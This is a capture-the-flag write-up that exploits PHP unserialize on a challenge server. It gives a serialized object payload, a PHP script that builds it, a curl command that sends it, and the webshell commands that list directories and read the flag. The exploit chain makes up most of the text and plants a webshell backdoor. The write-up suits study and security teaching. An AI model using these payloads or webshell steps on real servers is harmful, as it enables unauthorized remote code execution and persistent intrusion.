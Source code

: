# Web Exotic Attacks Handy Tool

We test:

```graphql
?tool=unserialize&input=O:4:"Test":0:{}
```

And get:

```makefile
object(__PHP_Incomplete_Class)#1 (1) { ["__PHP_Incomplete_Class_Name"]=> string(4) "Test" }
```

- This confirms PHP unserialize is active, and no filtering is in place.

We try: `O:8:"PHPClass":2:{s:9:"condition";b:1;s:4:"prop";s:66:"system('echo <?php system($_GET["cmd"]); ?> > backdoor.php');";}` -> This payload is accepted, and unserialized, but doesn't execute system(). That’s because *PHPClass* is not defined on the server.


### Write a Backdoor

Create a custom class locally:

```php
<?php
class PHPClass {
    public $condition = true;
    public $prop;

    public function __construct() {
        $this->prop = "system('echo <?php system(\$_GET[\"cmd\"]); ?> > backdoor.php');";
    }
}

echo urlencode(serialize(new PHPClass()));
?>
```
Save this as `payload.php` and run: **php payload.php > payload.txt**

Send the payload to the server: `curl "http://141.85.224.99:8004/?tool=unserialize&input=$(cat payload.txt)"`

This writes a webshell to: **http://141.85.224.99:8004/backdoor.php**

We confirm code execution:

```bash
http://141.85.224.99:8004/backdoor.php?cmd=ls /
→ Output:

bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var
````

Then:

```bash
http://141.85.224.99:8004/backdoor.php?cmd=ls /home
→ ctf

http://141.85.224.99:8004/backdoor.php?cmd=ls /home/ctf
→ flag.txt

http://141.85.224.99:8004/backdoor.php?cmd=cat /home/ctf/flag.txt
→ SSS{y0u_g0t_a_r3v3rs3_sh3ll_didnt_y0u_l1ttl3_pr1ck}
```

Remove your shell: `http://141.85.224.99:8004/backdoor.php?cmd=rm backdoor.php`
